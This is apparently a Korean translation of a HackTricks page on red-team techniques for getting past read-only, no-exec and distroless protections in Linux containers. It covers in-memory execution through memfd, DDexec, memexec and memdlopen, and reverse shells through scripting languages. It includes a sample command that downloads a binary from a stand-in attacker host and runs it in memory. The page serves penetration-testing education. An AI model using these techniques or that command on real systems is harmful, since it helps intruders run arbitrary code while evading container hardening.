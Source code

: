 # FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서 이 페이지에 언급된 기술을 더 깊이 설명합니다:

* [**DEF CON 31 - 리눅스 메모리 조작 탐색을 통한 스텔스 및 회피**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 인메모리 dlopen()을 통한 스텔스 침투 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 특히 컨테이너에서 그렇습니다. 이는 ro 파일 시스템으로 컨테이너를 실행하는 것이 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만큼 쉽기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 다운로드하고 실행하는 것을 **복잡하게 만듭니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내부에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어 `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **그곳에서는 보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내부에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장할 수 있습니다. 이는 이러한 보호에 의해 보호되지 않으며, 그런 다음 **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64 인코딩된** 스크립트를 지정된 언어로 생성하며, **fd**를 생성하여 `create_memfd` 시스템 호출을 호출하고 이를 실행하기 위한 **exec** 시스템 호출을 포함합니다.

{% hint style="warning" %}
이 방법은 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 스크립트에서 원시 시스템 호출을 호출하는 **기본 방법이 없기 때문**입니다. 따라서 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.

또한 `/dev/shm`에 있는 파일로 **일반 fd**를 생성하는 것도 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 실행할 수 없기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**할 수 있게 해줍니다. **`/proc/self/mem`**을 덮어쓰는 방식으로 말입니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써 **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
더 많은 정보는 이 기술에 대해 Github를 확인하거나:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법에 대한 예시는** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### Distroless란 무엇인가

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 리버스 셸

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`를 찾을 수 없을 수도 있습니다**. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 없습니다.
{% endhint %}

그러나 손상된 컨테이너가 예를 들어 플라스크 웹을 실행하고 있다면, 파이썬이 설치되어 있으므로 **파이썬 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 Node 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**에서도 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 **시스템을 열거**할 수 있습니다.
{% endhint %}

**읽기 전용/실행 금지** 보호가 없다면, 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어의 리버스 셸을 얻고 메모리에서 바이너리를 실행하는 방법에 대한 예시는** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
